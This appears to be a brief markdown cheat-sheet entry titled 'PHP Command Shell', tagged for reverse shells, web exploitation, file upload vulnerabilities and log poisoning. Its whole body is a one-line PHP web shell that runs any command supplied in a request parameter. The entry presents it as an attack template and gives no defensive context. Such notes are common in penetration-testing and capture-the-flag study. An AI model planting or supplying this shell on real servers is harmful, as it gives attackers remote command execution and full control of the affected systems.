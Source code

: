 ```yaml
---
title: "PHP Command Shell"
date: 2025-7-16
tags: ["Reverse Shell", "Php", "Shell", "Template", "Web Exploitation", "File Upload Vulnerability", "Log Poisoning"]
---
```


### PHP Command Shell

```php
<?php system($_REQUEST['cmd']); ?>
```
